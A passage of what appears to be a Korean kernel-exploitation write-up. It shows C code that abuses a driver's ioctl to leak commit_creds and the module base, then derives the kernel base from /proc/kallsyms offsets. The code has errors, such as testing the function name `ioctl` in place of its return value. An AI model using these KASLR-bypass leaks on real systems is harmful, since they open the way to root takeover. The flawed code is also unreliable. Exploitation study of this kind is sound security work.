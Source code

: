 ```c
        printf("device open error\n");
        return 0;
    }

    ioctl_ret = ioctl(fd, command, leak_buffer);
    
    if (ioctl < 0)
    {
        printf("ioctl error: %lld\n", ioctl);
        return 0;
    }
    
    return NULL;
}

int main(void)
{
    uint64_t* leak_alloc = (int64_t*)malloc(sizeof(int64_t));
    uint64_t leak_buffer[3] = {0,};
    uint64_t commit_creds;
    uint64_t module_base_address;
    int dummy;

    // leak commit_creds
    leak_buffer[0] = leak_alloc;
    leak_buffer[1] = 0x8;
    ioctl_control(leak_buffer, LEAK_COMMIT_CREDS);
    commit_creds = *leak_alloc;
    printf("commit_address: 0x%llx\n", commit_creds);

    //leak userinput_address
    leak_buffer[2] = -4;
    leak_buffer[1] = 0x8;
    ioctl_control(leak_buffer, LEAK_MODULE_OFFSET);
    module_base_address = *leak_alloc - 0x24c0;
    printf("module base address: 0x%llx\n", module_base_address);

    uint64_t kernel_base = commit_creds - 0xfc0f0;

    printf("kernel base: 0x%llx\n", kernel_base);
}
```

kernel base 주소와 module_base 주소는 해당 커널에 root 로 접속 후 `kallsyms` 파일을 읽어 상대 주소를 가져올 수 있다. 

```bash
~ # cat /proc/kallsyms | grep commit_creds
ffffffff810fc0f0 T commit_creds
ffffffff8293e2e0 r __ksymtab_commit_creds
ffffffff8296d715 r __kstrtab_commit_creds
ffffffff82972805 r __kstrtabns_commit_creds
~ # cat /proc/kallsyms | grep _text
ffffffff81000000 T _text
ffffffff8104afe0 t __text_poke
ffffffff8104b9f0 T alternatives_text_reserved
...

```
위에 보이는 `_text` 주소가 실제 커널 베이스 주소이다. `commit_creds` 주소와 `_text` 주소를 알았으니, 상대값을 구할 수 있고, 이를 통해 커널 베이스 주소를 구할 수 있다. 
